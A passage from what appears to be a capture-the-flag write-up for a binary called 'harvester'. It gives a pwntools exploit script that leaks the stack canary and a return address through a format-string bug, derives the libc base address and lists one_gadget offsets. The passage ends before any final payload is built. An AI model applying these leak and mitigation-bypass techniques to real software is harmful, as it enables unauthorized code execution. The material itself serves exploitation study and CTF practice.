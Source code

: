 We have 3 one gadget and inside our software we can jump into this because we can calulate their address in the process space adding to its address the leaked base address.

This is the final exploit.

```python
from pwn import *

def leak_at( offset):
    p.recvuntil('> ')       
    p.sendline('1')         
    p.recvuntil('> ')       
    p.sendline(f'%{offset}$p')   
    p.recvuntil('is: ')     
    leak = p.recvuntil('\n')
    return str(leak).strip("b'").strip("\\n'").strip("[1;31m").strip("\\x1b")

def drop_pie(n):
    p.recvuntil('> ')
    p.sendline('2')
    p.recvuntil('(y/n)')
    p.sendline('y')
    p.recvuntil('> ')
    p.sendline(str(n))
    return

def stare(payload):
    p.recvuntil('> ')
    p.sendline('3')
    p.recvuntil('> ')
    p.send(payload)


p_name = './harvester'

context.binary = elf = ELF(p_name)
libc = ELF('./libc.so.6')

#p = remote('188.166.156.174',32273)
p = elf.process()
#gdb.attach(p)

# offset utili
canary_off   = 11
ret_addr     = 13
main_return  = 21
ADDR_RET_VAL = 0x26d0a

## gadget address
ONE1 = 0xcdb1a
ONE2 = 0xcbd1d
ONE3 = 0xcbd20

## LEAK CANARY
canary = leak_at(canary_off)
log.info('LEAK Canary      > '+canary)

## LEAK MAIN RET
ret_of_main = leak_at(main_return)
log.info('LEAK Ret of main > '+ ret_of_main)

## LEAK LIC BASE ADDRESS
base_libc = int(ret_of_main, 16) - ADDR_RET_VAL
log.info('LEAK base libc   > '+ str(hex(base_libc)))

```